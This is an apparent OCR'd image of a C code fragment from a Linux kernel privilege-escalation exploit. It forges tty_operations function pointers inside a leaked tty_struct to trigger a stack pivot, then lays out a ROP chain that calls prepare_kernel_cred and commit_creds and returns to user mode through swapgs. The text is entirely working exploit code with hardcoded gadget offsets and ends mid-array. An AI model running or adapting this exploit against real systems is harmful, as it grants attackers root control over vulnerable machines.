 ```c




    unsigned long struct_empty_place_off = 696;
    unsigned long used_space = 0;
    unsigned long struct_empty_place_address = leak_tty_struct_obj_address + struct_empty_place_off;
    unsigned long num_of_func_pointers_to_write = 14;

    for (int i = 0; i < num_of_func_pointers_to_write; i++) {
        *(unsigned long *) &leak_buff[struct_empty_place_off + i * 8] = stack_pivot_gadget_stage_1_address;
    }

    used_space += sizeof(stack_pivot_gadget_stage_1_address) * num_of_func_pointers_to_write;

    unsigned long tty_operations_offset = 3 * sizeof(void *); // it's the 4th qword.
    *(unsigned long *) &leak_buff[tty_operations_offset] = struct_empty_place_address;

    unsigned long stack_pivot_stage_3_gadget_offset = 0x001821; // pop rsp; pop rbp; ret;
    unsigned long stack_pivot_gadget_stage_3_address = kernel_base + stack_pivot_stage_3_gadget_offset;


    unsigned long prepare_kernel_creds_f_off = 0x072560;
    unsigned long prepare_kernel_creds_f = kernel_base + prepare_kernel_creds_f_off;

    unsigned long pop_rdi_off = 0x14078a;
    unsigned long pop_rdi_address = kernel_base + pop_rdi_off;

    unsigned long xchg_rdi_rax_off = 0x487980;
    unsigned long xchg_rdi_rax_address = kernel_base + xchg_rdi_rax_off;

    unsigned long commit_creds_f_off = 0x0723c0;
    unsigned long commit_creds_f = kernel_base + commit_creds_f_off;


    unsigned long swapgs_restore_regs_and_return_to_usermode_offset = 0x800e10;
    unsigned long swapgs_restore_regs_and_return_to_usermode_address =
            kernel_base + swapgs_restore_regs_and_return_to_usermode_offset;

    unsigned long stage_3_rop_off = 0x10 + 0x30;

    unsigned long stage_3_rop[] = {stack_pivot_gadget_stage_3_address, struct_empty_place_address + used_space - 0x8};


    for (int j = 0; j < sizeof(stage_3_rop) / 8; j++) {
        *((unsigned long *) &leak_buff[stage_3_rop_off + j * 8]) = stage_3_rop[j];
    }

    // Now write the final rop to where the third stage of stack pivot moved the stack to.
    unsigned long pe_and_ret_to_userspace_rop[] = {pop_rdi_address, 0, prepare_kernel_creds_f,
                                                   xchg_rdi_rax_address,
                                                   commit_creds_f, swapgs_restore_regs_and_return_to_usermode_address,
                                                   rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500, rsp + 0x500, rsp + 0x500,
                                                   rsp + 0x500, rsp + 0x500, rsp + 0x500,
                                                   rsp + 0x500 + 0x400, rsp + 0x500, rsp + 0x500,
```